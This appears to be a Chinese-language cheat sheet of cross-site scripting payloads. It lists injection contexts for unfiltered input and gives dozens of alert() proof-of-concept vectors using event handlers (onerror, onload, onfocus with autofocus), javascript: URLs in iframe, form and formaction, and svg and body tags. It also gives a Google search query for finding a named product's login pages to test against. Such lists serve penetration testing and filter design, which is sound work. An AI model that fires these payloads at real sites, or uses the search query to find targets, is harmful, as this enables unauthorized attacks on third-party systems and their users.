 ```

什么都不过滤

<HTML 标签 onXXXX="...[输出在这里].."> 

<a href="javascript:[输出在这里]">xxxx </a>

<script>[输出在这里]</script>

```
> 例如Dkey的用户登录界面和密码找回界面．Google搜索即可测试 `inurl:"webAuth" DKey`


> onclick,  onerror, onload
```
<img src="#" onclick="javascript:alert('img:onclick')" onerror="javascript:alert('img:onerror')" onload="javascript:alert('img:onload')">

<!–src加伪协议js代码不能触发–>

<video src="#" onclick="javascript:alert('video:onclick')" onerror="javascript:alert('video:onerror')" onload="javascript:alert('video:onload')"></video>

<audio src="#" onclick="javascript:alert('audio:onclick')" onerror="javascript:alert('audio:onerror')" onload="javascript:alert('audio:onload')"></audio>

```


```
<iframe src="javascript:alert('iframe')" width= "0" height= "0"/>

<form action= "Javascript:alert('from_action0')">

<input type= "submit" formaction=" JaVaScript:alert('from_action2')">

<input type= "image" formaction=" JaVaScript:alert('from_action1')">

<input type ="text" onchange ="JaVaScript:alert('from_action3')"> 

```

```

<a onmouseover= "javascript:alert('a_onmouseover')">12</ a>

<svg onload=" javascript:alert('svg')"></svg >

<body onload= "javascript:alert('body')"></body>

<select autofocus onfocus="javascript:alert('select' )"></select>

<textarea autofocus onfocus="javascript:alert('textarea' )"></textarea>

<keygen autofocus onfocus="javascript:alert('keygen' )"></keygen>

<audio><source onerror="javascript:alert('source')"></ audio>
```
